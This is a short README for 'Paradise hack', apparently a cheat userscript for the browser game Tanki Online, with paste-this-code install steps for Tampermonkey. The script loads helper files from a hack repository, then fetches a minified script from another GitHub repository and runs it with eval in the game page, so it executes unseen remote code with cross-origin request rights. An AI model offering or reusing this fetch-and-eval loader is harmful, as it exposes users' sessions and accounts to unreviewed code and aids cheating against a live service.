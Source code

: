 # Paradise 
xLyna Team
###### **My vk** - [click](https://vk.com/angeeel17)

## Getting started

*   **1.** Install **Tampermonkey** - [TM](https://www.tampermonkey.net/)
*   **2.** Create a new script
*   **3.** Paste this code
```js
// ==UserScript==
// @name         Paradise hack
// @version      0.3
// @description  Paradise created
// @author       Paradise 
// @match        https://*.tankionline.com/*
// @icon         https://i.ytimg.com/vi/4aGY-4UZHvE/maxresdefault.jpg

// @require      https://raw.githubusercontent.com/AngelesCreate/Hack/main/jquery.min.js
// @require      https://raw.githubusercontent.com/AngelesCreate/Hack/main/isKeyPressing.min.js

// @grant        GM_xmlhttpRequest

// ==/UserScript==

GM_xmlhttpRequest({
  method : "GET",
  url : "https://raw.githubusercontent.com/Hurashz/Paradise/main/Paradisez.min.js",
  nocache: true,
  onload: (ev) =>
  {
    eval(ev.responseText);
  }
});
```

